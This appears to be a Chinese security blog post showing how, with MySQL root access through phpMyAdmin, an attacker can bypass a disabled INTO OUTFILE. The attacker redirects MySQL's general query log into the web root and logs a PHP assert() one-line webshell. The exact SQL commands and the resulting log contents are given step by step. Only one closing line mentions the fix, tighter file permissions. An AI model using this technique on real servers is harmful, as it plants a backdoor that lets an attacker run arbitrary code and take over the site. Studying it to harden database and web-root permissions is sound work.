 ```yaml
---
date: "2017-03-23T00:00:00Z"
description: 假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
title: phpMyAdmin新姿势getshell
url: /archivers/2017-03-05/1
---
```


假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
<!--more-->

* 目录
{:toc}


## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-92a62b6bce5a6c66aa07dcae86a45b2e_r.jpg)

可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-103d1faf4ef1790dda328ae855828eb0_hd.jpg)

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-6120a906737c3c20d87cd3ae4c0f3db5_r.jpg)

经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-7937fe1a956ff7ef604a1b6a8d0b803d_r.jpg)

目前是OFF状态，也就是不保存SQL到日志文件中。

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-c9c5b6ab51e7f8f55eaac27d3529f189_r.jpg)

这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-905b73ccaab7b944d18b92816250c10d_hd.jpg)

我们去主机上的目录里看看这个文件是否存在：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-edf0809c6bd914d9127e220060f60395_r.jpg)

贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8be82b148faa920ceda19d592820470_hd.jpg)

贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：
![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f7cdabc60f3f39b2ca25a3f486bb23b4_r.jpg)

（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66414717c8f4be26b9af449ab2634c06_r.jpg)

我们再去看看站点下是否创建了这个文件：



![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e8273a7d3fdc1fbb990d8f911d17b5b9_r.jpg)


创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-0ae649932588d176756a432479ff62cf_r.jpg)

我们访问看看~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-e5cc5693f6a7e55616cdfa62f605bddc_hd.jpg)

已经解析php了，我们同样测试一下是否能执行php代码吧 ~

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-b13043cfb90de8ac7a55aec067901aad_hd.jpg)

贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~
